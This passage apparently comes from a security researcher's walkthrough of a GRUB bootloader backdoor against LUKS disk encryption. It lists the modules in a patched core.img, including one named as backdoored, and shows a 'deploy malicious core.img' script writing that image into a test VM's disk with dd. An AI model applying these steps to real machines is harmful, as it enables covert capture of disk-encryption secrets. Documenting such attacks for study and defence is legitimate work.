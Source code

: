 ```bash
grub_module: type=0 size=0x17f4  md5=8d79d6c2706ddde587fea93830ea0c21 filename=modules/mods-debian11/ext2.mod
grub_module: type=0 size=0x274c  md5=f197920b4ed3181ca118709b577b5405 filename=modules/mods-debian11/diskfilter.mod
grub_module: type=0 size=0x1c00  md5=0dde71eacabac0ef0870a15690017e74 filename=modules/mods-debian11/lvm.mod
grub_module: type=0 size=0x1378  md5=1df60ceeb4f1fdf7824c9e2ae686edff filename=modules/mods-debian11/crypto.mod
grub_module: type=0 size=0x1290  md5=31059070b7e7cccf0a3363220551b93b filename=modules/mods-debian11/extcmd.mod
grub_module: type=0 size=0xb78   md5=3aed3fab1b2215605cd8531e2d071ce7 filename=modules/mods-debian11/archelp.mod
grub_module: type=0 size=0x934   md5=6407057d134c43d2e59c0e3197199361 filename=modules/mods-debian11/procfs.mod
grub_module: type=0 size=0x274c  md5=0120d10c38a3228130977469d6b039f0 filename=modules/mods-debian11/cryptodisk.mod
grub_module: type=0 size=0x59c   md5=ee78193c1bfaf07fed437e5e1adfe19d filename=modules/mods-debian11/pbkdf2.mod
grub_module: type=0 size=0x1c90  md5=e3114b08acc11fb1603e2a66919ec924 filename=modules/mods-patched/luks-backdoored-working-build-on-debian.mod
grub_module: type=0 size=0x4be8  md5=526c2aa03bb400d3e74ae9b8cb640ed0 filename=modules/mods-debian11/gcry_rijndael.mod
grub_module: type=0 size=0x10e0  md5=c8a1503f28013c1ae4bb1c956d0dcc90 filename=modules/mods-debian11/gcry_sha256.mod
grub_module: type=0 size=0x900   md5=43fdc46f1c900eb28765539f8011b888 filename=modules/mods-debian11/part_msdos.mod
grub_module: type=0 size=0x1244  md5=35d716173480b613377b05963ebdf9d6 filename=modules/mods-debian11/biosdisk.mod
grub_module: type=2 size=0x3c    md5=6288acdd7cdf30f39fc6ea6a620104bc filename= content=b'cryptomount -u bf1b9823440d4268af072fff335d67fa\n\x00\x00\x00\x00'
grub_module: type=3 size=0x68    md5=4cab02b1b261cc664b2eb60b55c2b9ae filename= content=b'(lvmid/PrEOaz-cSyI-bAUy-seQF-3kgF-p3Ox-oGMfXj/9LnOBV-Bb7m-rKOf-4Qua-TU86-wzxO-iQGGCO)/boot/grub\x00'
kmille@linbox:grub-luks 

```

5. Deploy malicious core.img

```bash
kmille@linbox:grub-luks cd test-vm 
kmille@linbox:test-vm ./deploy-core-img.sh
+ DEPLOY_IMG=../working-dir/core/patched-core.img
+ dd if=disk.img of=mbr.dd bs=512 count=1
1+0 records in
1+0 records out
512 bytes copied, 0.00048986 s, 1.0 MB/s
+ dd if=/dev/zero of=disk.img bs=512 count=2048 conv=notrunc
2048+0 records in
2048+0 records out
1048576 bytes (1.0 MB, 1.0 MiB) copied, 0.0199295 s, 52.6 MB/s
+ dd if=mbr.dd of=disk.img conv=notrunc
1+0 records in
1+0 records out
512 bytes copied, 0.000161547 s, 3.2 MB/s
+ dd if=../working-dir/core/patched-core.img of=disk.img bs=512 seek=1 conv=notrunc
107+1 records in
107+1 records out
55132 bytes (55 kB, 54 KiB) copied, 0.000691911 s, 79.7 MB/s
+ sync
+ echo done
done
kmille@linbox:test-vm 
```
